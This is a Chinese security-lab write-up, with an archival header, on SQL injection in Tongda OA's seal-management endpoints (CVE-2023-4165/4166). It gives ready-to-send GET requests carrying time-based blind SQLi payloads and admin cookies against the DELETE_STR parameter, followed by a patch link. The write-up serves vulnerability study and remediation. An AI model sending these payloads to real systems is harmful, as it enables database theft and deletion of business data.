



# 通达OA delete_seal/delete_log SQL 注入

## 条目说明

- 对象与具体问题：通达OA；delete_seal/delete_log SQLi
- 版本、配置及部署条件：≤11.10及2017声明
- 认证与权限前提：示例admin Cookie
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 4166 URL含原始空格，4165请求行断开
- DELETE会有业务数据删除风险，重查询还增负载
- 补丁只泛化下载页面，无build；广告多

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/1xyeZE1Ry95qJg32I8r1uw)

  

网安引领时代，弥天点亮未来 

  

  


  

**0x00 写在前面**  

  

**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**

通达 OA 系统，即 Offic Anywhere，又称为网络智能办公系统，是通达科技公司针对各行业办公与管理开发的办公应用系统。通达 OA 系统采用领先的 B/S 架构，采用基于 WEB 网络的开发方式，能够使得企业及个人办公不再受地域限制，实现信息化、自动化、移动化高效便捷办公。

OA 系统采用领先的 B/S 架构，采用基于 WEB 网络的开发方式，能够使得企业及个人办公不再受地域限制，实现信息化、自动化、移动化高效便捷办公。

漏洞 1（CVE-2023-4165）**General/system/seal_manage/iweboffice/delete_seal.php** 文件，对参数 DELETE_STR 的操作会导致 sql 注入。

漏洞 2（CVE-2023-4166）**general/system/seal_manage/dianju/delete_log.php** 文件，对参数 DELETE_STR 的操作会导致 sql 注入。


  

**0x02 影响版本**  

通达 OA ≤ v11.10，v2017


  

**0x03 漏洞复现**  

  

1. 访问漏洞环境



2. 对漏洞进行复现

 **POC （GET）**

```
General/system/seal_manage/iweboffice/delete_seal.php 
general/system/seal_manage/dianju/delete_log.php

```

         DELETE_STR 参数存在 SQL 注入漏洞，可能导致通过 SQL 盲注（延时注入）获取数据库中的敏感信息。

         GET 发起 sql 请求

CVE-2023-4166

```
GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1) and (substr(DATABASE(),2,1))=char(68) and (select count(*) from information_schema.columns A,information_schema.columns B) and(1)=(1 HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4n867pmrrp4nendg0tsngl7g70; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c74d7ebb
Connection: close

```



CVE-2023-4165

```http
GET /general/system/seal_manage/iweboffice/delete_seal.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
 HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=4n867pmrrp4nendg0tsngl7g70; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c74d7ebb
Connection: close

```




  

**0x04 修复建议**  

  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

```
https://www.tongda2000.com/download/p2022.php

```

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
